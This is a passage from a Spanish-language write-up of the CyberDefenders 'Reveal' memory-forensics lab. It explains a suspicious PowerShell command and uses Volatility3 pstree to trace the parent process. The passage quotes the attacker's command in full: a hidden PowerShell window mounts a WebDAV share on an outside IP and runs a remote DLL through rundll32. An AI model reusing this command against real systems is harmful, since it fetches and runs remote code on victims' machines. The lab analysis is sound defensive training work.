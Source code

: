 **`powershell.exe`** ejecuta el comando **`-windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`** lo que es muy sospechoso ya que: 

- **`-windowstyle hidden`**: significa que la ventana de PowerShell estará oculta para el usuario, lo que significa que trata de pasar desapercibido del mismo.

- **`net use \\45.9.74.32@8888\davwwwroot\ ;`**: **`net use`** es un comando que se usa para conectarse a recursos compartidos en una red y **`\\45.9.74.32@8888\davwwwroot\`** indica un intento de conectarse a un servidor remoto en la dirección IP **45.9.74.32**, en el puerto 8888, a una carpeta compartida llamada "davwwwroot". Es probable que sea un intento de montar un recurso compartido WebDAV remoto. WebDAV es a menudo abusado por los atacantes para alojar y ejecutar archivos maliciosos. 

- **`rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`**: `rundll32.exe` es una utilidad de Windows que se usa para ejecutar archivos DLL (Dynamic Link Library). Este comando intenta ejecutar la función "entry" dentro del archivo "**3435.dll**" ubicado en el recurso compartido WebDAV remoto. Esta es una técnica clásica para ejecutar código malicioso. Los atacantes usan **`rundll32`** para eludir las medidas de seguridad y ejecutar su código sin ejecutar directamente un archivo ejecutable. 
 

![Yw4rf Reveal](../../../assets/CyberDefenders/Reveal/task-1.png)

#### Task #2

> Conocer el ID del proceso padre (**PPID**) del proceso malicioso ayuda a rastrear la jerarquía de procesos y comprender el flujo del ataque. ¿Cuál es el PPID del proceso malicioso?

Utilizamos el plugin **`pstree`** de Volatility3 para visualizar la relación jerarquica entre procesos 

![Yw4rf Reveal](../../../assets/CyberDefenders/Reveal/reveal-3.png)
